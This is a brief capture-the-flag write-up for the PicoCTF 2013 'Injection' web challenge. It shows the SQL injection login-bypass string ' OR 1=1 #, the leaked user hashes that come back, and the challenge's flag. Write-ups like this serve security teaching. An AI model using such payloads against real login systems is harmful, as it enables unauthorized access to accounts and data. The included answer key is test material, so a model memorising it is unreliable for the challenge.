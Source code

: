 # PicoCTF 2013: Injection

**Category:** Web Vuln
**Points:** 110
**Description:**

> Use the Loading Bay Control System to get the admin key! [Problem](https://2013.picoctf.com/problems/injection/)

## Write-up

The challenge is called "Injection" and it's a web based authentication page.  Chances are this is some kind of SQL Injection challenge, and we need to be able to bypass the authentication, as we don’t know a valid username.

Google for [sql-injection-authentication-bypass-cheat-sheet](https://pentestlab.wordpress.com/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)

Trying `' OR 1=1 #` and it's bug:

```
Username: user177 Hash: 53e33afe47d6951aa21b90741f11e711

Username: user178 Hash: 7efdd69b03fbb5cf805419bd1044f558

Username: admin Hash: bad_code_and_databases_is_no_fun
```

**Answer:** bad_code_and_databases_is_no_fun

## Other write-ups and resources

* none yet
